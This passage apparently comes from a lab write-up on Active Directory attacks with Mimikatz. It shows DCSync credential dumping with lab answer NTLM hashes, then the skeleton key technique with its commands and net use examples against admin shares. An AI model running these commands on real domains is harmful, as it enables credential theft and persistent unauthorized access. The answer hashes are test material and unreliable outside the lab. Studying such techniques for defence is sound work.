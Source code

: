```

Final Ticket Saved to file !


misc::cmd    # elevates command prompt with given ticket 

access machines you want based on user privileges


-----
lsadump::dcsync /domain:controller.local /all /csv

What is the SQLService NTLM Hash?

cd40c9ed96265531b21fc5b1dafcfb0a

  
What is the Administrator NTLM Hash?

2777b7fec870e04dda00cd7260f7bee6


```


## skeleton key: mimikatz

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

```
cd \Downloads
mimikatz.exe
privilege::debug
misc::skeleton

```


The default credentials will be: "_mimikatz_"  

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.





















